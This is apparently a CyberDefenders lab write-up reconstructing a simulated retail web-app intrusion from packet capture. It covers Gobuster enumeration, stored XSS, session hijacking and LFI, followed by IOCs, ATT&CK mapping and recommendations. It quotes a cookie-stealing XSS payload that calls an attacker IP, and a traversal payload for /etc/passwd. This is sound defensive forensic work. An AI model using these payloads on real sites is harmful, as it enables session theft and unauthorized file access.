






# RetailBreach – Network Traffic Investigation: Web Application Compromise, Session Hijacking, and Local File Inclusion Analysis

---

## Investigation Overview

This investigation documents the forensic analysis of a simulated web application compromise involving multiple stages of attacker activity, including reconnaissance, exploitation of a Stored Cross-Site Scripting (XSS) vulnerability, administrator session hijacking, and subsequent exploitation of a Local File Inclusion (LFI) vulnerability.

Using network traffic analysis in Wireshark, the complete attack lifecycle was reconstructed to identify the external attacker, determine the techniques used during each stage of the intrusion, collect forensic evidence, extract Indicators of Compromise (IOCs), and map the observed adversary behavior to the MITRE ATT&CK framework.

| Field | Value |
|--------|-------|
| **Platform** | CyberDefenders |
| **Lab Name** | RetailBreach |
| **Category** | Network Forensics |
| **Primary Evidence** | Network Packet Capture (PCAP) |
| **Analysis Tool** | Wireshark |
| **Investigation Type** | Web Application Incident Response & Network Traffic Analysis |
| **Attack Techniques Observed** | Directory Enumeration, Stored Cross-Site Scripting (XSS), Session Hijacking, Local File Inclusion (LFI) |
| **MITRE ATT&CK Tactics** | Reconnaissance, Initial Access, Credential Access, Discovery, Collection, Persistence |
| **Difficulty Level** | SOC Analyst L1 |

---

## Investigation Objectives

The objectives of this investigation were to:

- Reconstruct the complete attack timeline from captured network traffic.
- Identify the external attacker responsible for the intrusion.
- Determine the reconnaissance methodology used against the web application.
- Analyze the Stored Cross-Site Scripting (XSS) attack and its impact.
- Investigate administrator session cookie theft and subsequent session hijacking.
- Examine exploitation of the Local File Inclusion (LFI) vulnerability.
- Identify Indicators of Compromise (IOCs) to support threat hunting and incident response.
- Map observed attacker techniques to the MITRE ATT&CK framework.
- Document all findings with supporting forensic evidence.

---

### Evidence Snapshot

**Figure 1.** Protocol Hierarchy Statistics providing an overview of network protocols observed within the captured traffic.



# Executive Summary

ShopSphere, an online retail platform, experienced suspicious administrative activity and multiple customer reports of abnormal account behavior, prompting a network forensic investigation using the provided packet capture (PCAP).

Analysis of the captured network traffic revealed a multi-stage web application attack originating from the external IP address **111.224.180.128**. The attacker began by performing automated directory enumeration using **Gobuster** to identify hidden application resources before exploiting a **Stored Cross-Site Scripting (XSS)** vulnerability within the application's review functionality. A malicious JavaScript payload was successfully injected to capture authenticated administrator session cookies.

When an administrator accessed the compromised reviews page, the injected script executed within the browser context and exfiltrated the active **PHPSESSID** cookie to the attacker's server. The attacker subsequently reused the stolen session token to hijack the administrator's authenticated session, obtaining unauthorized access to privileged administrative functionality.

Following successful session hijacking, the attacker exploited a **Local File Inclusion (LFI)** vulnerability in the `log_viewer.php` application component. By leveraging a directory traversal payload, the attacker successfully accessed sensitive operating system files, including `/etc/passwd`, confirming post-authentication exploitation of the target application.

Through systematic analysis of HTTP requests, HTTP responses, request headers, session cookies, and reconstructed HTTP streams, the complete attack lifecycle was successfully reconstructed—from initial reconnaissance through post-exploitation. The investigation identified the attacker infrastructure, exploited application components, malicious payloads, compromised session artifacts, Indicators of Compromise (IOCs), and mapped the observed adversary behavior to the MITRE ATT&CK framework.

---

### Evidence Snapshot

**Figure 2.** HTTP requests generated during directory enumeration using Gobuster.




## Incident Scenario

ShopSphere, a simulated online retail platform, experienced suspicious administrative login activity accompanied by an increasing number of customer reports describing abnormal account behavior. The combination of these events raised concerns that an attacker had successfully compromised privileged administrative access to the web application.

To determine the nature and scope of the incident, a network forensic investigation was initiated using a provided Network Packet Capture (PCAP) containing HTTP communications recorded during the suspected attack window. The investigation focused on reconstructing the complete sequence of events leading to the suspected compromise and identifying the techniques used by the attacker throughout the intrusion.

The forensic analysis aimed to identify the external threat actor, examine reconnaissance activity against the web application, investigate exploitation of a Stored Cross-Site Scripting (XSS) vulnerability that resulted in administrator session hijacking, and analyze the subsequent exploitation of a Local File Inclusion (LFI) vulnerability used to access sensitive operating system files.

By correlating HTTP requests, HTTP responses, session cookies, request headers, packet timestamps, and reconstructed HTTP streams, the investigation sought to establish a complete attack timeline, determine the impact of the compromise, identify Indicators of Compromise (IOCs), and map the observed adversary behavior to the MITRE ATT&CK framework.

---

## Evidence Provided

The investigation was conducted using a Network Packet Capture (PCAP) containing HTTP communications between external clients and the ShopSphere web application. The captured network traffic served as the primary forensic artifact for reconstructing the attack lifecycle, identifying malicious activity, validating exploitation techniques, and correlating attacker actions throughout the incident.

By examining HTTP requests, responses, headers, session cookies, and reconstructed HTTP streams, sufficient evidence was obtained to identify the threat actor, confirm successful exploitation, and document the complete sequence of events.

### Evidence Sources

| Evidence | Description |
|----------|-------------|
| **Network Packet Capture (PCAP)** | Primary forensic artifact containing all captured network communications associated with the incident. |
| **HTTP Requests & Responses** | Used to identify reconnaissance activity, exploitation attempts, malicious payload delivery, authenticated sessions, and post-compromise actions. |
| **HTTP Headers** | Provided evidence of attacker tooling, User-Agent strings, session identifiers, and request metadata. |
| **HTTP Streams** | Used to reconstruct attacker interactions, decode malicious payloads, and validate successful exploitation. |
| **Session Cookies** | Confirmed theft and reuse of the administrator's authenticated `PHPSESSID` during session hijacking. |

### Key Evidence Identified

- External attacker IP address responsible for reconnaissance, exploitation, and post-compromise activity.
- Automated directory enumeration performed using **Gobuster**.
- Successful injection of a Stored Cross-Site Scripting (XSS) payload into the `reviews.php` application component.
- Execution of the malicious JavaScript when accessed by an authenticated administrator.
- Exfiltration and unauthorized reuse of the administrator's `PHPSESSID` session cookie.
- Unauthorized access to privileged administrative resources following successful session hijacking.
- Exploitation of the vulnerable `log_viewer.php` component through a Local File Inclusion (LFI) vulnerability.
- Successful use of a directory traversal payload to retrieve the sensitive `/etc/passwd` system file.

---

### Supporting Evidence

**Figure 3.** Protocol Hierarchy Statistics providing an overview of the network protocols observed within the captured traffic.


**Figure 4.** HTTP conversations used to correlate attacker activity with the victim web application.



## Investigation Methodology

The investigation followed a structured network forensic methodology to reconstruct the complete attack lifecycle and validate each stage of the intrusion using evidence contained within the provided Network Packet Capture (PCAP). Analysis was performed using **Wireshark**, focusing on HTTP communications, request metadata, session management, and application-layer interactions to establish a comprehensive timeline of attacker activity.

### Investigation Workflow

1. Identified external hosts communicating with the ShopSphere web application.
2. Analyzed HTTP requests and responses to establish attacker activity.
3. Identified reconnaissance techniques by examining HTTP request patterns and User-Agent headers.
4. Reconstructed the attack timeline using packet timestamps and HTTP stream correlation.
5. Identified directory enumeration activity targeting hidden application resources.
6. Decoded URL-encoded payloads to analyze injected malicious content.
7. Investigated the Stored Cross-Site Scripting (XSS) attack and validated successful execution within the administrator's browser.
8. Traced the theft and unauthorized reuse of the administrator's `PHPSESSID` session cookie.
9. Verified unauthorized access to privileged administrative functionality following session hijacking.
10. Investigated exploitation of the Local File Inclusion (LFI) vulnerability through directory traversal.
11. Extracted Indicators of Compromise (IOCs), including attacker infrastructure, malicious payloads, session artifacts, and exploited application components.
12. Mapped the observed adversary behavior to the MITRE ATT&CK framework.

### Investigation Tools

| Tool | Purpose |
|------|---------|
| **Wireshark** | Network traffic analysis, packet inspection, protocol analysis, and attack timeline reconstruction. |
| **Follow HTTP Stream** | Reconstruction of complete HTTP conversations and validation of attacker interactions. |
| **Display Filters** | Isolation of attacker traffic, HTTP requests, session cookies, and application-specific activity. |
| **HTTP Packet Analysis** | Examination of request methods, headers, parameters, cookies, and server responses. |
| **URL Decoding** | Decoding and analysis of URL-encoded XSS payloads submitted by the attacker. |

---

## Attack Timeline

The following timeline reconstructs the attack lifecycle observed within the captured network traffic. Each stage is supported by forensic evidence extracted from the packet capture and validated through HTTP request analysis, packet correlation, and HTTP stream reconstruction.

| Stage | Description |
|--------|-------------|
| **1. Reconnaissance** | The attacker (**111.224.180.128**) initiated reconnaissance against the ShopSphere web application by performing automated directory enumeration using **Gobuster** to identify hidden application resources and administrative endpoints. |
| **2. Resource Discovery** | Multiple HTTP GET requests targeting common directories and application files resulted in the discovery of accessible application resources, including the vulnerable `log_viewer.php` component. |
| **3. Stored XSS Injection** | A malicious URL-encoded JavaScript payload was submitted through the `reviews.php` endpoint, exploiting a Stored Cross-Site Scripting (XSS) vulnerability to target authenticated administrators. |
| **4. XSS Execution** | An authenticated administrator accessed the compromised review page, causing the injected JavaScript payload to execute within the browser context. |
| **5. Session Cookie Theft** | The malicious script exfiltrated the administrator's authenticated `PHPSESSID` session cookie to the attacker's infrastructure, enabling session hijacking. |
| **6. Session Hijacking** | The attacker reused the stolen session identifier to impersonate the authenticated administrator and establish unauthorized access to privileged application functionality. |
| **7. Administrative Access** | Authenticated requests to protected administrative resources confirmed successful compromise of the administrator's session and unauthorized privilege abuse. |
| **8. Local File Inclusion (LFI) Exploitation** | The attacker exploited the vulnerable `log_viewer.php` script by supplying a directory traversal payload through the `file` parameter. |
| **9. Sensitive File Access** | The directory traversal attack successfully retrieved the contents of `/etc/passwd`, confirming unauthorized access to sensitive operating system files via the Local File Inclusion (LFI) vulnerability. |
| **10. Investigation Outcome** | Network forensic analysis successfully reconstructed the complete intrusion lifecycle, identified the attacker, validated each stage of the compromise, extracted Indicators of Compromise (IOCs), and mapped the observed adversary techniques to the MITRE ATT&CK framework. |

---

### Supporting Evidence

**Figure 5.** Timeline of attacker activity reconstructed from HTTP requests and packet timestamps.



## Technical Investigation

The technical investigation reconstructed the complete attack lifecycle by analyzing HTTP communications contained within the provided Network Packet Capture (PCAP). Packet inspection, HTTP stream reconstruction, request correlation, and session analysis were used to identify each stage of the intrusion, validate successful exploitation, and determine the attacker's objectives.

---

### Phase 1 – Reconnaissance

The investigation began by identifying suspicious HTTP traffic originating from the external IP address **111.224.180.128**. Analysis of the captured requests revealed systematic directory enumeration against the ShopSphere web application.

Inspection of the HTTP request headers identified the **Gobuster** User-Agent, confirming the use of an automated directory brute-forcing tool. Multiple HTTP GET requests targeting common directories and application resources indicated an attempt to discover hidden endpoints and administrative functionality that could be leveraged during later stages of the attack.

#### Evidence Identified

| Artifact | Value |
|----------|-------|
| **Attacker IP Address** | `111.224.180.128` |
| **Tool Identified** | Gobuster |
| **Technique** | Automated Directory Enumeration |
| **Objective** | Discovery of hidden application resources |

**Figure 6.** HTTP requests generated during automated directory enumeration using Gobuster.



---

### Phase 2 – Stored Cross-Site Scripting (XSS)

Following successful reconnaissance, the attacker exploited a **Stored Cross-Site Scripting (XSS)** vulnerability within the `reviews.php` application component.

Analysis of the HTTP POST request identified a URL-encoded JavaScript payload submitted through the application's review functionality. After decoding, the payload was confirmed to exfiltrate authenticated session cookies to an attacker-controlled server.

```javascript
<script>fetch('http://111.224.180.128/'+document.cookie);</script>
```

This payload was designed to execute whenever an authenticated administrator viewed the compromised page, enabling theft of the active session identifier without requiring authentication credentials.

#### Evidence Identified

| Artifact | Value |
|----------|-------|
| **Vulnerable Component** | `reviews.php` |
| **Attack Technique** | Stored Cross-Site Scripting (Stored XSS) |
| **Payload Objective** | Session Cookie Exfiltration |

---

### Phase 3 – Administrator Session Compromise

Subsequent HTTP traffic confirmed that an authenticated administrator accessed the compromised review page. Upon loading the page, the injected JavaScript executed within the administrator's browser and transmitted the authenticated **PHPSESSID** cookie to the attacker's infrastructure.

The captured HTTP traffic confirmed successful execution of the malicious payload and compromise of the administrator's authenticated web session.

#### Evidence Identified

| Artifact | Value |
|----------|-------|
| **Compromised Cookie** | `PHPSESSID` |
| **Result** | Session Cookie Theft |
| **Impact** | Administrator Session Compromised |

---

### Phase 4 – Session Hijacking

Following successful cookie theft, the attacker reused the stolen **PHPSESSID** value in subsequent HTTP requests to impersonate the authenticated administrator.

Analysis of authenticated requests confirmed successful access to privileged administrative functionality, demonstrating that the application accepted the stolen session identifier without requiring re-authentication.

#### Evidence Identified

| Artifact | Value |
|----------|-------|
| **Technique** | Session Hijacking |
| **Authentication Method** | Reuse of Stolen `PHPSESSID` |
| **Access Obtained** | Authenticated Administrator Session |

---

### Phase 5 – Local File Inclusion (LFI)

With administrative access established, the attacker targeted the vulnerable `log_viewer.php` application component.

HTTP request analysis identified a crafted directory traversal payload supplied through the `file` parameter.

```text
../../../../../../etc/passwd
```

The vulnerable application processed the supplied path and returned the contents of the Linux `/etc/passwd` file, confirming successful exploitation of a **Local File Inclusion (LFI)** vulnerability and unauthorized access to sensitive operating system files.

#### Evidence Identified

| Artifact | Value |
|----------|-------|
| **Vulnerable Component** | `log_viewer.php` |
| **Vulnerability** | Local File Inclusion (LFI) |
| **Directory Traversal Payload** | `../../../../../../etc/passwd` |
| **Sensitive File Retrieved** | `/etc/passwd` |

**Figure 7.** Exploitation of the Local File Inclusion (LFI) vulnerability through the `log_viewer.php` component.



---

### Technical Investigation Summary

The forensic analysis confirmed a structured, multi-stage intrusion in which the attacker progressed from reconnaissance to application exploitation, administrator session compromise, privilege abuse, and post-authentication exploitation of a Local File Inclusion vulnerability. Each stage of the attack was validated through packet-level evidence, enabling reconstruction of the complete attack lifecycle and identification of the associated Indicators of Compromise (IOCs).

### Investigation Conclusion

The forensic investigation successfully reconstructed the complete attack lifecycle through analysis of the provided Network Packet Capture (PCAP). Evidence demonstrated that the attacker progressed through a structured sequence of activities, beginning with reconnaissance, followed by exploitation of a Stored Cross-Site Scripting (XSS) vulnerability, administrator session hijacking, and post-authentication exploitation of a Local File Inclusion (LFI) vulnerability.

Correlation of HTTP requests, HTTP responses, session cookies, request headers, packet timestamps, and reconstructed HTTP streams enabled validation of each stage of the intrusion. The investigation successfully identified the attacker's infrastructure, recovered the malicious payloads, confirmed unauthorized administrative access, documented the exploited application components, extracted Indicators of Compromise (IOCs), and mapped the observed adversary behavior to the MITRE ATT&CK framework.

---

## Indicators of Compromise (IOC) Summary

The following Indicators of Compromise (IOCs) were identified during the investigation and can be used to support threat hunting, incident response, and detection engineering activities.

| IOC Type | Indicator | Description |
|----------|-----------|-------------|
| **Attacker IP Address** | `111.224.180.128` | External IP responsible for reconnaissance, exploitation, session hijacking, and post-compromise activity. |
| **Reconnaissance Tool** | `Gobuster` | Automated directory enumeration tool identified through the HTTP User-Agent header. |
| **Malicious XSS Payload** | `<script>fetch('http://111.224.180.128/'+document.cookie);</script>` | Stored XSS payload used to exfiltrate the administrator's authenticated session cookie. |
| **Vulnerable Component** | `reviews.php` | Application endpoint exploited to inject the malicious JavaScript payload. |
| **Compromised Session Cookie** | `PHPSESSID` | Administrator session identifier stolen and reused during session hijacking. |
| **Administrative Resource** | `dashboard.php` | Protected administrative page accessed after successful session hijacking. |
| **Vulnerable Script** | `log_viewer.php` | Administrative component exploited through a Local File Inclusion (LFI) vulnerability. |
| **Directory Traversal Payload** | `../../../../../../etc/passwd` | Payload supplied through the `file` parameter to access sensitive operating system files. |
| **Sensitive File Retrieved** | `/etc/passwd` | Linux system file successfully retrieved through the LFI vulnerability. |

> **Note:** A comprehensive list of Indicators of Compromise (IOCs), supporting evidence, and forensic artifacts is available in **Artifacts/Indicators-of-Compromise.md**.

---

## MITRE ATT&CK Summary

The observed attacker behavior was mapped to the MITRE ATT&CK framework based on forensic evidence extracted during the investigation.

| ATT&CK Tactic | Technique | Technique ID | Evidence Observed |
|---------------|-----------|--------------|-------------------|
| **Reconnaissance** | Gather Victim Network Information | **T1590** | Automated directory enumeration performed using Gobuster. |
| **Initial Access** | Exploit Public-Facing Application | **T1190** | Stored Cross-Site Scripting (XSS) vulnerability exploited within `reviews.php`. |
| **Credential Access** | Steal Web Session Cookie | **T1539** | Administrator `PHPSESSID` cookie exfiltrated through malicious JavaScript. |
| **Execution** | Exploitation for Client Execution | **T1203** | Malicious JavaScript executed within the administrator's browser. |
| **Persistence** | Valid Accounts | **T1078** | Stolen administrator session reused to maintain authenticated access. |
| **Privilege Escalation** | Valid Accounts | **T1078** | Unauthorized administrative privileges obtained through session hijacking. |
| **Discovery** | File and Directory Discovery | **T1083** | Administrative resources and application files identified during reconnaissance. |
| **Collection** | Data from Local System | **T1005** | Sensitive system file (`/etc/passwd`) retrieved through Local File Inclusion (LFI). |

> **Note:** A detailed ATT&CK mapping, including supporting evidence and investigation notes, is available in **Artifacts/MITRE-ATTACK-Mapping.md**.

---

## Key Findings

The investigation confirmed a coordinated, multi-stage web application attack originating from the external IP address **111.224.180.128**. Initial reconnaissance was conducted using **Gobuster** to enumerate hidden application resources and identify potentially vulnerable administrative components.

The attacker subsequently exploited a **Stored Cross-Site Scripting (XSS)** vulnerability within the `reviews.php` endpoint by injecting a malicious JavaScript payload designed to capture authenticated administrator session cookies. When the compromised page was accessed by an administrator, the payload executed successfully and exfiltrated the active **PHPSESSID** cookie to attacker-controlled infrastructure.

Using the stolen session identifier, the attacker successfully hijacked the administrator's authenticated session and obtained unauthorized access to privileged application functionality without requiring valid credentials.

With administrative access established, the attacker exploited a **Local File Inclusion (LFI)** vulnerability within the `log_viewer.php` component by supplying a directory traversal payload. Successful retrieval of the Linux `/etc/passwd` file confirmed unauthorized access to sensitive operating system resources through the vulnerable web application.

Overall, the investigation successfully reconstructed the complete attack lifecycle, validated each stage of the intrusion using packet-level forensic evidence, identified the attacker infrastructure, documented the exploited application components, extracted Indicators of Compromise (IOCs), and mapped the observed adversary techniques to the MITRE ATT&CK framework.

## Recommendations

Based on the findings of this investigation, the following security recommendations are proposed to reduce the likelihood of similar attacks and strengthen the overall security posture of the ShopSphere web application.

### Web Application Security

- Implement comprehensive input validation and server-side sanitization for all user-supplied data.
- Apply context-aware output encoding to mitigate Stored and Reflected Cross-Site Scripting (XSS) vulnerabilities.
- Deploy a Web Application Firewall (WAF) to detect and block attacks such as XSS, directory traversal, Local File Inclusion (LFI), and automated reconnaissance.
- Perform regular vulnerability assessments, penetration testing, and secure code reviews to identify and remediate application weaknesses before deployment.

### Session Security

- Configure session cookies with the **HttpOnly**, **Secure**, and **SameSite** attributes to reduce the risk of client-side session theft.
- Regenerate session identifiers after successful authentication and privilege changes.
- Implement session timeout policies and automatically invalidate sessions following suspicious activity.
- Monitor for concurrent, geographically anomalous, or otherwise suspicious administrative sessions.

### Access Control

- Restrict administrative interfaces to trusted networks or VPN-protected access.
- Enforce Multi-Factor Authentication (MFA) for all privileged accounts.
- Apply the Principle of Least Privilege (PoLP) to administrative users and application components.
- Periodically review privileged accounts and remove unnecessary administrative access.

### Application Hardening

- Eliminate Local File Inclusion (LFI) vulnerabilities by validating file requests against an allowlist of approved resources.
- Prevent directory traversal by normalizing and validating file path parameters before accessing server-side files.
- Disable or restrict access to administrative utilities that are not required in production environments.
- Implement a Content Security Policy (CSP) to reduce the impact of Cross-Site Scripting (XSS) attacks.

### Monitoring and Detection

- Monitor for automated directory enumeration and abnormal HTTP request patterns indicative of reconnaissance activity.
- Generate alerts for unusual administrative logins, session reuse, and abnormal authentication behavior.
- Detect outbound HTTP requests attempting to transmit session cookies or other sensitive client-side data.
- Monitor web server and application logs for directory traversal attempts, repeated access to administrative resources, and exploitation of vulnerable endpoints.

### Incident Response

- Immediately invalidate compromised session tokens upon confirmation of session hijacking.
- Reset credentials and rotate authentication secrets associated with affected privileged accounts.
- Conduct a comprehensive review of web server, application, and authentication logs to identify additional Indicators of Compromise (IOCs).
- Update detection rules, threat intelligence repositories, and security monitoring platforms using the IOCs identified during this investigation.

---

## Conclusion

This investigation successfully reconstructed the complete attack lifecycle through forensic analysis of the provided Network Packet Capture (PCAP). The collected evidence demonstrated a coordinated, multi-stage web application attack in which the adversary combined reconnaissance, Stored Cross-Site Scripting (XSS), session hijacking, and Local File Inclusion (LFI) to compromise the ShopSphere environment.

The attacker initially performed automated directory enumeration using **Gobuster** to identify exposed application resources before exploiting a Stored Cross-Site Scripting vulnerability within the `reviews.php` endpoint. Execution of the malicious JavaScript payload resulted in the theft of the administrator's authenticated **PHPSESSID** cookie, enabling successful session hijacking and unauthorized access to privileged application functionality. The attacker subsequently exploited a Local File Inclusion vulnerability within `log_viewer.php` to retrieve the sensitive Linux `/etc/passwd` file.

Through systematic correlation of HTTP requests, HTTP responses, session cookies, request headers, packet timestamps, and reconstructed HTTP streams, the investigation identified the attacker infrastructure, validated each stage of the intrusion, reconstructed the complete attack timeline, extracted Indicators of Compromise (IOCs), and mapped the observed adversary techniques to the MITRE ATT&CK framework.

This investigation highlights how multiple seemingly independent web application vulnerabilities can be chained together to achieve complete application compromise. The findings reinforce the importance of secure application development, robust session management, continuous monitoring, proactive vulnerability management, and timely incident response to reduce organizational risk and improve overall security resilience.